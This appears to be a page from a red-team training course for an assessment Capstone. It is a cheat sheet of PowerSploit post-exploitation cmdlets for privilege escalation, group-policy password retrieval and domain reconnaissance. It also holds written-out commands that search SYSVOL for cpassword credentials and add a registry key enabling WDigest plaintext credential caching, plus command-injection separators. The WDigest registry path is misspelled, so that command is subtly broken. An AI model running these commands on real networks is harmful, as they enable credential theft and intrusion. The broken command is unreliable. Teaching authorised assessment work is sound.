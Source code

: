 ```yaml
---
title: Additional Tools
---
```


# Cobalt Strike
While Cobalt Strike is permitted to be used for the Capstone, we do not offer specific training on the tool as the Capstone is meant to be a tool agnostic exercise and the complexity of the tool exceeds the scope of CQI training. If you wish to utilize Cobalt Strike in the Capstone, you are expected to rely on your own experience and the extensive training resources [available online](https://blog.cobaltstrike.com/)[and](https://www.cobaltstrike.com/).

# PowerSploit Techniques
PowerSploit is a collection of post-exploitation Powershell tools with various capabilities including exfiltration, persistence, privilege escalation, reconnaissance, and more. The assessment team typically employs these tools through loading them into Cobalt Strike beacons.

# Specific Cmdlet Tools
The cmdlets within PowerSploit have an incredible amount of capabilities which can be researched and explored in a couple of different ways:

 1. [Viewing the PowerSploit github:](https://github.com/PowerShellMafia/PowerSploit)
 1. [Viewing documentation online:](https://powersploit.readthedocs.io/en/latest/)
 1. Viewing the actual source scripts and reading through the comments
 1. [Viewing cheatsheets such as:](https://github.com/HarmJ0y/CheatSheets)

The commands listed below are some of the most commonly used commands on HVA and RVA engagements, however you are encouraged to do your own research and determine other commands that might be most useful in the Capstone.

Note: if running these commands via Cobaltstrike, all of these must be proceeded by "powershell" or "powerpick" (unmanaged Powershell).
### PowerUp
Invoke-AllChecks
-This runs all possible checks in PowerUp
-Useful way to just quickly go through the checks and determine any easy escalation paths
Get-GPPPassword
-Retrieves any group policy passwords that are discovered
Get-GPPAutologon
-Retrieves any group policy auto-logon creds
### PowerView
Find-LocalAdminAccess
-Finds all local administrator access for the current user for all computers on the domain
-Often takes a long time to run and return complete results, so leave it running
FindLastLogonLocation
-Search for the last logon location for a specific user on the current domain
Invoke-ShareFinder
-Searches for network share drive access on the current domain
Get-NetUser - UserName [username]
Get-NetGroup -UserName [username]
-Searches for what group the specified user is a member of
Get-DomainTrust
Get-ForestTrust
-Search for trust relationships

# Find GPP Passwords in SYSVOL
```
findstr /S cpassword $env:logonserver\sysvol\*.xml
```
```
findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)
```

# Run Powershell prompt as a different user, without loading profile to the machine [replace DOMAIN and USER]
```
runas /user:DOMAIN\USER /noprofile powershell.exe
```
# Insert reg key to enable Wdigest on newer versions of Windows
```
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1
```

# Useful Commands

Command Injection
```
&&
```
```
||
```
```
;
```